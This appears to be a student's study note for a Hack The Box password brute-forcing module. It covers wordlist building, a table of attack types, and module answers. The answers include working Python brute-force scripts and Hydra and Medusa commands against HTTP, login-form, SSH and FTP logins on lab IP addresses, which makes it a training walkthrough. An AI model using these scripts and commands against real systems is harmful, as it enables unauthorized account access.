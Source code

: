 ### Content
* Tools:
	* [[Hydra]]
	* [[Medusa]]
* [Custom Wordlists](#custom-wordlists)
	* Create personalized **username** wordlists using [Username Anarchy](https://github.com/urbanadventurer/username-anarchy.git)
	* Create personalized **password** wordlists using [CUPP](https://github.com/Mebus/cupp)
* [Edit a wordlist to be tailored to a specific policy with grep](#edit-a-wordlist-to-be-tailored-to-a-specific-policy-with-grep)
* [Types of Brute Forcing](#types-of-brute-forcing)
* [HTB Module Answers](#htb-module-answers)
---
## Edit a wordlist to be tailored to a specific policy with grep
Suppose we have this policy:
- Minimum length: 8 characters 
- Must include:
    - At least one uppercase letter 
    - At least one lowercase letter 
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)
``` bash
 grep -E '^.{8,}$' old-wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > new-wordlist.txt
```
---
## Custom Wordlists
* **Username Anarchy** 
``` bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
./username-anarchy john doe > john_doe_usernames.txt
```
* **CUPP**
``` bash
cupp -i
```
---
## Types of Brute Forcing
| Method                    | Description                                                                                                                   | Example                                                                                                                                                  | Best Used When...                                                                                                                           |
| ------------------------- | ----------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `Simple Brute Force`      | Systematically tries all possible combinations of characters within a defined character set and length range.                 | Trying all combinations of lowercase letters from 'a' to 'z' for passwords of length 4 to 6.                                                             | No prior information about the password is available, and computational resources are abundant.                                             |
| `Dictionary Attack`       | Uses a pre-compiled list of common words, phrases, and passwords.                                                             | Trying passwords from a list like 'rockyou.txt' against a login form.                                                                                    | The target will likely use a weak or easily guessable password based on common patterns.                                                    |
| `Hybrid Attack`           | Combines elements of simple brute force and dictionary attacks, often appending or prepending characters to dictionary words. | Adding numbers or special characters to the end of words from a dictionary list.                                                                         | The target might use a slightly modified version of a common password.                                                                      |
| `Credential Stuffing`     | Leverages leaked credentials from one service to attempt access to other services, assuming users reuse passwords.            | Using a list of usernames and passwords leaked from a data breach to try logging into various online accounts.                                           | A large set of leaked credentials is available, and the target is suspected of reusing passwords across multiple services.                  |
| `Password Spraying`       | Attempts a small set of commonly used passwords against a large number of usernames.                                          | Trying passwords like 'password123' or 'qwerty' against all usernames in an organization.                                                                | Account lockout policies are in place, and the attacker aims to avoid detection by spreading attempts across multiple accounts.             |
| `Rainbow Table Attack`    | Uses pre-computed tables of password hashes to reverse hashes and recover plaintext passwords quickly.                        | Pre-computing hashes for all possible passwords of a certain length and character set, then comparing captured hashes against the table to find matches. | A large number of password hashes need to be cracked, and storage space for the rainbow tables is available.                                |
| `Reverse Brute Force`     | Targets a single password against multiple usernames, often used in conjunction with credential stuffing attacks.             | Using a leaked password from one service to try logging into multiple accounts with different usernames.                                                 | A strong suspicion exists that a particular password is being reused across multiple accounts.                                              |
| `Distributed Brute Force` | Distributes the brute forcing workload across multiple computers or devices to accelerate the process.                        | Using a cluster of computers to perform a brute-force attack significantly increases the number of combinations that can be tried per second.            | The target password or key is highly complex, and a single machine lacks the computational power to crack it within a reasonable timeframe. |

---
## HTB Module Answers
* Q1
``` python
import requests
ip = "94.237.51.112"
port = "40414"
for pin in range(10000):
    p = f"{pin:04d}"
    response = requests.get(f"http://{ip}:{port}/pin?pin={p}")
    print(f"pin: {p}")
    if response.ok:
        print(f"Correct pin: {p}")
        print(response.json())
        break
```
* Q2
``` python
import requests
ip = "94.237.60.32"
port = "45071"
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.split()
for password in passwords:
    print(f"Try: {password}")
    request = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
    if request.ok:
        print(f"The correct password: {password}")
        print(request.json())
        break
```
* Q3
``` bash
hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P "2023-200_most_used_passwords.txt"
```
* Q4
``` bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials
```
* Q5
``` bash
medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
# Login and use a session from the target:
ssh sshuser@<IP> -p PORT
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
```